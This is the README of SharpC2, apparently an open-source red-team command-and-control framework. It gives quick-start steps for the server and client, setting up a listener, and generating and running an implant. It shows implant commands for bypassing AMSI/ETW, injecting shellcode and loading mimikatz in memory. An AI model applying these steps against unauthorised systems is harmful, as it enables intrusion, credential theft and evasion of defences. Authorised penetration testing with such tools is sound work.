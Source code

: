 [![Build Status](https://travis-ci.com/SharpC2/SharpC2.svg?branch=main)](https://travis-ci.com/SharpC2/SharpC2)
[![Documentation Status](https://readthedocs.org/projects/sharpc2/badge/?version=latest)](https://sharpc2.readthedocs.io/en/latest/?badge=latest)

# SharpC2

SharpC2 is a Command and Control Framework written in C#.

The solution consists of an ASP.NET Core Team Server, a .NET Framework Implant, and a .NET Client.

## Quick Start

The quickest way to have a play with the framework is clone the repo, then build and run the Debug versions.

### Start the Team Server

```
C:\SharpC2\TeamServer> dotnet build
TeamServer -> C:\SharpC2\TeamServer\bin\Debug\net5.0\TeamServer.dll

C:\SharpC2\TeamServer\bin\Debug\net5.0> dotnet TeamServer.dll --password Passw0rd!
info: Microsoft.Hosting.Lifetime[0]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: C:\SharpC2\TeamServer\bin\Debug\net5.0
```

**Note**:  If the server starts in `Development` mode, it will only listen for connections on the `localhost`.  To ensure it runs in `Production` mode (and therefore listen for connections on all interfaces) set the `ASPNETCORE_ENVIRONMENT` variable to `Production`.

### Start the Client

```
C:\SharpC2\Client> dotnet build
Client -> C:\SharpC2\Client\bin\Debug\net5.0\SharpC2.dll

C:\SharpC2\Client\bin\Debug\net5.0>dotnet SharpC2.dll
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_

(server)>
```

### Connect to the Team Server

```
(server)> localhost
(port)> 8443
(nick)> rasta
(pass)>

Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

(accept? [y/N])> y
[drones] #
```

The client also supports command line arguments for faster setup.

```
C:\SharpC2\Client\bin\Debug\net5.0>dotnet SharpC2.dll --server localhost --port 8443 --nick rasta --password Passw0rd!
```

### Configure and Start the Default HTTP Handler

```
[drones] # handlers

[handlers] # list

Name          Running
----          -------
default-http  False

[handlers] # config default-http

[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        80         False
ConnectAddress  localhost  False
ConnectPort     80         False

[default-http] # set BindPort 8080
[default-http] # set ConnectPort 8080
[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        8080       False
ConnectAddress  localhost  False
ConnectPort     8080       False

[default-http] # start
[+] Handler "default-http" started.

[default-http] # back

[handlers] # list

Name          Running
----          -------
default-http  True
```

### Generate a Payload for the Handler

```
[drones] # payloads

[payloads] # show

Handler  Format  DllExport
-------  ------  ---------
         Exe     Execute

[payloads] # set Handler default-http

[payloads] # help generate

Generate payload
Usage: generate </output/path>

[payloads] # generate C:\Temp\drone.exe
[+] Saved 74240 bytes.
```

Execute the payload.

```
C:\Temp> drone.exe
```

### Interacting with a Drone

```
[drones] # list

Guid        Address      Hostname      Username  Process  PID    Arch  LastSeen
----        -------      --------      --------  -------  ---    ----  --------
655a3dea9d  172.20.64.1  Ghost-Canyon  Daniel    drone    32748  x64   0.29s

[drones] # interact 655a3dea9d

[655a3dea9d] # help

Name              Description
----              -----------
back              Back to previous screen
bypass            Set a directive to bypass AMSI/ETW on tasks
cd                Change working directory
execute-assembly  Execute a .NET assembly
exit              Exit this Drone
getuid            Get current identity
help              Get help
load-module       Load an external Drone module
ls                List filesystem
overload          Map and execute a native DLL
ps                List running processes
pwd               Print working directory
run               Run a command
shell             Run a command via cmd.exe
shinject          Inject arbitrary shellcode into a process
sleep             Set sleep interval and jitter

[655a3dea9d] # help overload
Map a native DLL into memory
Usage: overload [/path/to/dll] [export] <args>

[655a3dea9d] # overload C:\Tools\mimikatz\x64\powerkatz.dll powershell_reflective_mimikatz coffee
[+] Drone tasked: 668a2b4acb
[+] Drone checked in. Sent 1878149 bytes.
[+] Output received:

  .#####.   mimikatz 2.2.0 (x64) #19041 Mar  3 2021 14:35:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

[+] Task complete.
```

## Documentation

See more documentation on [Read the Docs](https://sharpc2.readthedocs.io/en/latest).